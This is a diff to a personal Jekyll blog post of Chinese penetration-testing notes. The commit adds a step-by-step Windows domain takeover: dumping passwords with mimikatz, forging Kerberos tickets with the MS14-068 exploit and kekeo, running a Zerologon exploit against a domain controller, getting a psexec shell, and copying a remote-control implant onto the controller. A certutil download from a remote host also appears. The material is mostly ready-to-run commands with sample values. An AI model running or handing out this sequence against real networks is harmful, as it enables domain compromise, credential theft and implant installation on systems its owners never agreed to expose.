

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-12-24-privilegeEscalation.md, in a window 1280 px wide and 1400 px high, scrolled down 18520 px. Shown: the whole window at 92% size, without its empty margins (233-1236 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update privilegeEscalation.md

````diff
--- a/_posts/2020-12-24-privilegeEscalation.md
+++ b/_posts/2020-12-24-privilegeEscalation.md
@@ -13,6 +13,7 @@ tags:
     - 学习笔记
     - 权限提升
     - 漏洞利用
+    - 域渗透
 ---
 
 
@@ -56,6 +57,24 @@ python -m http.server 4444
 certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt c:\a.txt          # 下载链接中的robots.txt文件保存到c盘a.txt文件中
 certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete            # 清理缓存
 ```
+
+#### 4. ip绑定域名
+
+- windows下
+
+```
+C:\Windows\System32\drivers\etc\hosts
+```
+
+记事本打开，在最后追加ip及对应域名即可。
+
+- Linux下
+
+```
+/etc/hosts
+```
+
+vim打开，在最后追加ip及对应域名即可。
 
 
 
@@ -759,15 +778,129 @@ nc.exe -vv -l -p 4444
 
 ## 0x0c ms14-068域内提权
 
-未完待续。
+#### 1. 相关工具
+
+- lazagne（获取windows hash的工具）
+- mimikatz（获取windows hash的工具）
+- adfind（域内扫描工具）
+- [ms14-068.exe](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068)（ms14-068漏洞利用工具）
+- psexec.exe（域内提权工具）
+
+#### 1. 获取当前域用户的sid
+
+漏洞利用需要获取到一个普通的域账户，包括账户名，密码或者hash。
+
+使用lazagne或者mimikatz可以抓取到域账户信息，需要将工具上传到目标主机上。
+
+通过域账户执行命令
+
+```shell
+C:\Users\User>whoami /user
+
+用户信息
+----------------
+
+用户名              SID
+=================== =============================================
+houkc\user S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx
+```
+
+可以获取到当前域账户的sid。
+
+#### 2. 生成TGT票据
+
+使用 adfind获取域控的主机名字。
+
+使用mimikatz可以获取主机明文密码：
+
+```shell
+mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
+```
+
+使用以下命令攻击域内主机：
+
+```shell
+ms14-068.exe -u [用户名]@[域名] -p [密码] -s [sid] -d [域控主机名].[域名]
+```
+
+注意-d后面只能跟正确的域控主机名.域名，而不能用ip
+
+```shell
+ms14-068.exe -u temp@houkc.com -p 123456 -s S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx -d AdServer.houkc.com
+```
+
+执行完成会生成票据文件`TGT_temp@houkc.com.ccache`
+
+#### 3. 导入票据
+
+可以先命令行输入以下命令来清空当前票据：
+
+```shell
+klist purge
+```
+
+使用mimikatz可以导入票据：
+
+```shell
+mimikatz.exe "kerberos::ptc TGT_temp@houkc.com.ccache" exit
+```
+
+导入完成输入以下命令查看当前导入票据：
+
+```shell
+klist
+```
+
+#### 4. psexec提权为域控的administrator账户
+
+```shell
+psexec.exe \\AdServer.houkc.com cmd
+```
+
+#### 5. 拷贝远控程序xxx.exe到根目录
+
+```shell
+copy ./xxx.exe \\AdServer.cleverbao.com\c$        # 拷贝到c盘
+# 或者
+copy ./xxx.exe \\AdServer.cleverbao.com\c$\users\    # 拷贝到c盘下的users目录
+```
+
+远控程序可以用cobaltstrike生成。
+
+
 
 ## 0x0d CVE-2020-1472
 
-未完待续。
+github上可以下载exp，也是域控提权
+
+```shell
+python exp.py houkc.com 10.10.30.30
+psexec.exe \\10.10.30.30 cmd
+```
+
+参考exp如：
+
+- [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)
+- [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
+- [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)
+
+
 
 ## 0x0e kekeo 域内主机提权
 
-未完待续。
+kekeo工具功能类似ms14-068.exe
+
+下载链接：[https://github.com/gentilkiwi/kekeo](https://github.com/gentilkiwi/kekeo)
+
+- 生成票据功能
+
+```shell
+kekeo.exe "exploit::ms14068 /user:[账户名] /password:[密码] /sid:[sid] /ptc" exit
+# 例如：
+kekeo.exe "exploit::ms14068 /user:temp /password:123456 /sid:S-x-x-xx-xxxxxxxxx-xxxxxxxxxx-xxxxxxxxxx-xxxx /ptc" exit
+```
+
+其他功能同ms14-068.exe。
 
 
 
````
